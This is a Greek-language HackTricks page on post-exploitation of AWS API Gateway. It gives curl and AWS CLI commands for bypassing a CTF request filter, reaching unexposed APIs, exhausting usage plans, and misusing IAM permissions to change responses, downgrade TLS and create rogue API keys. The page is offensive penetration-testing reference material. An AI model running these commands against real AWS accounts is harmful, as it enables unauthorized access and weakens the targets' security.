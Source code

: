 # AWS - Μετά την εκμετάλλευση της API Gateway

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε την [**Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## API Gateway

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Πρόσβαση σε μη εκτεθειμένες APIs

Μπορείτε να δημιουργήσετε ένα σημείο στο [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) με την υπηρεσία `com.amazonaws.us-east-1.execute-api`, να εκθέσετε το σημείο σε ένα δίκτυο όπου έχετε πρόσβαση (ενδεχομένως μέσω μιας μηχανής EC2) και να αναθέσετε ένα ομάδα ασφαλείας που επιτρέπει όλες τις συνδέσεις.\
Στη συνέχεια, από τη μηχανή EC2 θα μπορείτε να έχετε πρόσβαση στο σημείο και συνεπώς να καλέσετε την πύλη API που δεν είχε εκτεθεί προηγουμένως.

### Παράκαμψη της διέλευσης του σώματος του αιτήματος

Αυτή η τεχνική βρέθηκε στο [**αυτό το CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Όπως προκύπτει από την [**τεκμηρίωση του AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) στην ενότητα `PassthroughBehavior`, από προεπιλογή, η τιμή **`WHEN_NO_MATCH`** , κατά τον έλεγχο της κεφαλίδας **Content-Type** του αιτήματος, θα προωθήσει το αίτημα στον πίσω μέρος χωρίς μετασχηματισμό.

Συνεπώς, στο CTF η API Gateway είχε ένα πρότυπο ενσωμάτωσης που **εμπόδιζε τη σημαία από το να εκχυλιστεί** σε μια απάντηση όταν στάλθηκε ένα αίτημα με `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Ωστόσο, η αποστολή ενός αιτήματος με **`Content-type: text/json`** θα αποτρέψει αυτό το φίλτρο.&#x20;

Τέλος, καθώς το API Gateway επέτρεπε μόνο τις `Get` και `Options`, ήταν δυνατόν να σταλεί μια αυθαίρετη ερώτηση dynamoDB χωρίς καμία περιορισμό στέλνοντας ένα αίτημα POST με την ερώτηση στο σώμα και χρησιμοποιώντας την κεφαλίδα `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Χρήση Σχεδίων DoS

Στην ενότητα **Απαρίθμησης** μπορείτε να δείτε πώς να **αποκτήσετε το σχέδιο χρήσης** των κλειδιών. Αν έχετε το κλειδί και είναι **περιορισμένο** σε X χρήσεις **ανά μήνα**, θα μπορούσατε απλά να το **χρησιμοποιήσετε και να προκαλέσετε ένα DoS**.

Το **Κλειδί API** χρειάζεται απλώς να **συμπεριληφθεί** μέσα σε ένα **κεφαλίδα HTTP** που ονομάζεται **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateGatewayResponse` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει μια υπάρχουσα Απόκριση Πύλης για να περιλαμβάνει προσαρμοσμένα κεφαλίδες ή πρότυπα απόκρισης που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα scripts**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανή Επίπτωση**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων scripts, ή μη εξουσιοδοτημένη πρόσβαση σε πόρους του API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateStage` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει ένα υπάρχον στάδιο του API Gateway για να ανακατευθύνει την κίνηση σε διαφορετικό στάδιο ή να αλλάξει τις ρυθμίσεις caching για να κερδίσει μη εξουσιοδοτημένη πρόσβαση σε κρυφά δεδομένα**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανή Επίπτωση**: Μη εξουσιοδοτημένη πρόσβαση σε κρυφά δεδομένα, διαταραχή ή παρεμπόδιση της κίνησης του API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:PutMethodResponse` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει την απάντηση μεθόδου ενός υπάρχοντος μεθόδου API Gateway REST API για να περιλαμβάνει προσαρμοσμένους κεφαλίδες ή πρότυπα απάντησης που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα scripts**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανή Επίπτωση**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων σεναρίων ή μη εξουσιοδοτημένη πρόσβαση σε πόρους του API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateRestApi` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει τις ρυθμίσεις του API Gateway REST API για να απενεργοποιήσει την καταγραφή καταγραφής ή να αλλάξει την ελάχιστη έκδοση TLS, με δυνητική απόδυναμωση της ασφάλειας του API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανή Επίπτωση**: Αποδυνάμωση της ασφάλειας του API, πιθανώς επιτρέποντας την μη εξουσιοδοτημένη πρόσβαση ή την αποκάλυψη ευαίσθητων πληροφοριών.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Ένας επιτιθέμενος με δικαιώματα `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` και `apigateway:CreateUsagePlanKey` μπορεί **να δημιουργήσει νέα κλειδιά API, να τα συσχετίσει με σχέδια χρήσης και στη συνέχεια να χρησιμοποιήσει αυτά τα κλειδιά για μη εξουσιοδοτημένη πρόσβαση σε APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Πιθανή Επίπτωση**: Μη εξουσιοδοτημένη πρόσβαση σε πόρους του API, παράκαμψη ελέγχων ασφαλείας.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
